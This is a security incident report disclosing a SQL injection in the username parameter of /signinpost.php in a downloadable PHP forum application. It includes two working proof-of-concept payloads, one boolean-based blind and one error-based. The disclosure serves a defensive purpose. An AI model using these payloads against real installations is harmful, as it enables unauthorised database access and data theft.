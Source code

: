 # **Incident Report: SQL Injection Vulnerability in Technical Discussion Forum v1.0**

**Incident ID:** TDForum-2024-05  
**Date of Report:** December 28, 2024  
**Reported By:** lings3346  
**Affected Product:** Technical Discussion Forum v1.0  
**Vendor Homepage:** [Technical Discussion Forum](https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/)  
**Download Link:** [Download Source Code](https://codeload.github.com/codezips/Technical-Discussion-Forum/zip/master)  

---

## **1. Incident Overview**

On December 27, 2024, during a routine security assessment of the **Technical Discussion Forum v1.0**, a critical SQL Injection vulnerability was identified in the `/signinpost.php` file. This vulnerability allows attackers to manipulate SQL queries through the `username` parameter without proper input validation, potentially leading to unauthorized data access and system compromise.

---

## **2. Incident Details**

### **2.1. Vulnerability Information**

- **Vulnerability Type:** SQL Injection
- **Affected File:** `/signinpost.php`
- **Affected Parameter:** `username` (POST)
- **Access Level Required:** None (No authentication or authorization required)

### **2.2. Technical Description**

The `/signinpost.php` script processes user sign-in requests by directly incorporating the `username` parameter into SQL queries without adequate sanitization or validation. This flaw enables attackers to inject malicious SQL code, altering the intended behavior of the database operations.

### **2.3. Proof of Concept (PoC)**

#### **Payloads Used:**

1. **Boolean-Based Blind SQL Injection**
    ```bash
    Parameter: username (POST)
    Payload: username=-6327' OR 9349=9349 AND 'YvFp'='YvFp&password=1111&submit=SignIn
    ```

2. **Error-Based SQL Injection**
    ```bash
    Parameter: username (POST)
    Payload: username=admin' OR (SELECT 9133 FROM(SELECT COUNT(*),CONCAT(0x71786b6271,(SELECT (ELT(9133=9133,1))),0x71716a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'fUFY'='fUFY&password=1111&submit=SignIn
    ```
